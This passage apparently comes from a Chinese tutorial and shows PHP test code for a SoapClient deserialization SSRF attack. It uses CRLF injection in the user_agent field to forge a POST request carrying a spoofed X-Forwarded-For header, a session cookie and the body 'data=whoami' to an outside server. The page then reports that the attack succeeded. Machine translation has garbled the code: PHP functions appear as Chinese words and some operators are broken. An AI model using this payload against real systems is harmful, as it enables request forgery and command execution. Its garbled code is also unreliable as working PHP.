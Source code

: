 `测试代码如下：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10   
    11   
    12   
    13   
    14  
    

|

    
    
      
    $target = 'http://47.xxx.xxx.72:2333/' ;   
    $post_data = 'data=whoami' ;   
    $headers = array ( 'X-Forwarded-For: 127.0.0.1' , 'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93' ); $a = new SoapClient( null , array ( 'location' => $target , 'user_agent' => 'wupco^^Content-Type: application/x-www-form-urlencoded^^' .join( '^^' , $headers ). '^^Content-Length: ' . (字符串  
          
          
      
    )strlen( $post_data )。'^^^^'。$post_data , 'uri' => 'test' ));   
    $b = 序列化( $a );   
    $b = str_replace( '^^' , "\n\r" , $b );   
    回声 $b ;   
    $c = 反序列化( $b );   
    $c -> a();    // 随便调用对象中不存在的方法,触发__call方法进行ssrf   
    ?>  
      
  
---|---  
  
`  
`

`执行代码后，如下图所示，成功发送POST数据：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084248.png)`
